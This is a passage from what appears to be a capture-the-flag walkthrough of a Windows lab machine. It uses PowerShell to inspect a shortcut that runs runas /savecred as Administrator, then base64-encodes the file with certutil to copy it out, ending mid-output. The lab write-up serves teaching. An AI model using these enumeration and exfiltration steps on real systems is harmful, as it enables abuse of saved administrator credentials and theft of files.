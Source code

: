 
I could also do this as a one-liner without a full PowerShell:

    
    
    C:\Users\Public\Desktop>powershell -c "$WScript = New-Object -ComObject WScript.Shell; $SC = Get-ChildItem *.lnk; $WScript.CreateShortcut($sc)"
    
    
    FullName         : C:\Users\Public\Desktop\ZKAccess3.5 Security System.lnk
    Arguments        : /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
    Description      : 
    Hotkey           : 
    IconLocation     : C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico,0
    RelativePath     : 
    TargetPath       : C:\Windows\System32\runas.exe
    WindowStyle      : 1
    WorkingDirectory : C:\ZKTeco\ZKAccess3.5
    

### Offline

#### Exfil the File

First, I’ll get the file using the same `certutil` base64 trick. I’ll need to
write somewhere, so I’ll write to my current user’s AppData temp dir:

    
    
    C:\Users\Public\Desktop>certutil -encode "ZKAccess3.5 Security System.lnk" -
    Input Length = 1870
    EncodeToFile returned Access is denied. 0x80070005 (WIN32: 5)
    CertUtil: -encode command FAILED: 0x80070005 (WIN32: 5)
    CertUtil: Access is denied.
    
    C:\Users\Public\Desktop>certutil -encode "ZKAccess3.5 Security System.lnk" \users\security\appdata\local\temp\output
    Input Length = 1870
    Output Length = 2630
    CertUtil: -encode command completed successfully.
    
    C:\Users\Public\Desktop>type \users\security\appdata\local\temp\output
    -----BEGIN CERTIFICATE-----
    TAAAAAEUAgAAAAAAwAAAAAAAAEb7QAAAIAAAAPV/wTcRBMoB9X/BNxEEygGg0wjv
    IwTKAQBQAAAAAAAAAQAAAAAAAAAAAAAAAAAAAC8BFAAfUOBP0CDqOmkQotgIACsw
    MJ0ZAC9DOlwAAAAAAAAAAAAAAAAAAAAAAAAAUgAxAAAAAAAWTec6EABXaW5kb3dz
    ADwACAAEAO++7jqFGhZN5zoqAAAAdwEAAAAAAQAAAAAAAAAAAAAAAAAAAFcAaQBu
    AGQAbwB3AHMAAAAWAFYAMQAAAAAAFk1WoxAAU3lzdGVtMzIAAD4ACAAEAO++7jqG
    GhZNVqMqAAAAxAUAAAAAAQAAAAAAAAAAAAAAAAAAAFMAeQBzAHQAZQBtADMAMgAA
    ABgAWAAyAABQAADuOvAMIABydW5hcy5leGUAQAAIAAQA777tOjG77ToxuyoAAAAD
    WQAAAAABAAAAAAAAAAAAAAAAAAAAcgB1AG4AYQBzAC4AZQB4AGUAAAAYAAAATAAA
    ABwAAAABAAAAHAAAAC0AAAAAAAAASwAAABEAAAADAAAA8NtFnBAAAAAAQzpcV2lu
    ZG93c1xTeXN0ZW0zMlxydW5hcy5leGUAACMALgAuAFwALgAuAFwALgAuAFwAVwBp
    AG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHIAdQBuAGEAcwAuAGUAeABl
    ABUAQwA6AFwAWgBLAFQAZQBjAG8AXABaAEsAQQBjAGMAZQBzAHMAMwAuADUARwAv
    AHUAcwBlAHIAOgBBAEMAQwBFAFMAUwBcAEEAZABtAGkAbgBpAHMAdAByAGEAdABv
    AHIAIAAvAHMAYQB2AGUAYwByAGUAZAAgACIAQwA6AFwAWgBLAFQAZQBjAG8AXABa
    AEsAQQBjAGMAZQBzAHMAMwAuADUAXABBAGMAYwBlAHMAcwAuAGUAeABlACIAJwBD
    ADoAXABaAEsAVABlAGMAbwBcAFoASwBBAGMAYwBlAHMAcwAzAC4ANQBcAGkAbQBn
    AFwAQQBjAGMAZQBzAHMATgBFAFQALgBpAGMAbwAUAwAABwAAoCVTeXN0ZW1Ecml2
    ZSVcWktUZWNvXFpLQWNjZXNzMy41XGltZ1xBY2Nlc3NORVQuaWNvAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAJQBTAHkAcwB0AGUAbQBEAHIAaQB2AGUAJQBcAFoASwBUAGUAYwBv
    AFwAWgBLAEEAYwBjAGUAcwBzADMALgA1AFwAaQBtAGcAXABBAGMAYwBlAHMAcwBO
    AEUAVAAuAGkAYwBvAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA